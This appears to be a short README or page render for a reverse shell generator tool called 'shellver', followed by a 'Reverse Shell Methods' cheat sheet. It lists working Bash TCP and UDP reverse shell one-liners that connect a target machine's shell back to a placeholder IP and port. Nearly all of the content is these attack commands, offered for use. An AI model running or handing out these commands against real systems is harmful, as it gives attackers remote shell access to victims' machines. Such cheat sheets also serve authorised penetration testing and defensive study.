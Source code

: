 
shellver msf

<img src="https://github.com/0xR0/shellver/blob/master/ss/all.png" >

From https://github.com/swisskyrepo
# Reverse Shell Methods


╔Bash TCP════════════════════════════════════════════════════════
║ bash -i >& /dev/tcp/[IP]/[PORT] 0>&1						    
║════════════════════════════════════════════════════════════════
║ 0<&196;exec 196<>/dev/tcp/[IP]/[PORT]; sh <&196 >&196 2>&196  
╚════════════════════════════════════════════════════════════════


╔Bash UDP═════════════╦══════════════════════════════════════════
║ Run Target Machine  ║ sh -i >& /dev/udp/[IP]/[PORT] 0>&1   
╚═════════════════════╩══════════════════════════════════════════

